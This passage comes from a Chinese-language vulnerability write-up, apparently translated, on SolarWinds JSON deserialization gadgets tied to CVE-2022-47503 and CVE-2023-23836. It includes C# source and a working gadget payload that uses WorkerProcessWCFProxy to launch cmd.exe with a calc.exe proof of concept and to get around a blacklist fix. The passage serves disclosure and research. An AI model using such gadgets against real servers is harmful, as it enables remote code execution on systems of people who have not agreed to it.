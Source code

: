 代码段 27 WorkerProcessWCFProxy 构造函数

在 \[1\] 处，定义了构造函数。有四个输入参数，我们可以通过反序列化控制所有这些参数（请参阅前一章）。

在 \[2\] 处，调用了 `CreateWorkerController` 方法。

```plain
private void CreateWorkerController() 
{ 
    this.workerController = new 
WorkerControllerWCFProxy(this.workerConfiguration, this.operationMode, 
this.assemblyName); 
} 
```

代码段 28 CreateWorkerController

可以看到，我们正在调用 `WorkerControllerWCFProxy` 的构造函数。这与我们在前一章中滥用的构造函数相同。

实际上，这里我们有第二个反序列化小工具，因为有一个不同的类正在被反序列化。在 CVE-2022-47503 中，我滥用了 `WorkerControllerWCFProxy` 类。在这里，我正在滥用 `WorkerProcessWCFProxy` 类。如果通过扩展黑名单修复了第一个漏洞，我们仍然可以使用第二个类。

恶意小工具示例：

```plain
{ 
    "$type": "SolarWinds.JobEngine.Engine.WorkerProcessWCFProxy,  
SolarWinds.JobEngine, Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
    "maxConcurrentJobs": 5, 
     "workerConfiguration": { 
        "$type": "SolarWinds.JobEngine.WorkerConfiguration, SolarWinds.JobEngine,  
Version=2022.4.0.0, Culture=neutral, PublicKeyToken=null", 
         "WorkerType": 1, 
        "CommandLine":  
"..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\System32\\cmd.exe", 
         "CommandArguments": "/c calc.exe & "30 
    }, 
    "operationMode": 0, 
    "assemblyName": "whatever" 
}
```

代码段 29 WorkerProcessWCFProxy gadget

#### 1.9 SolarWinds 平台 - 第 4 次绕过 - CVE-2023-23836

前两个小工具是基于一个简单的想法，它允许我们调用 `Process.Start` 方法。当攻击者控制输入参数时，这很容易被发现并且明显是恶意的。

现在，让我们想象一下，如果找到了一个反序列化小工具，它允许我们操控产品的功能，例如：

-   修改配置（实际上，我找到了一些产品的反序列化小工具，允许修改某些插件的配置）。
-   添加/修改用户。
-   触发一些产品特定的功能。
-   等等。

我们都倾向于寻找简单的小工具（就像前两个描述的小工具）。然而，我们总是需要关注反序列化可能引发的不同行为，这可能会带来漏洞风险。

这个反序列化小工具基于 `SolarWinds.IPAM.Storage.Credentials.CredentialInitializer` 类。
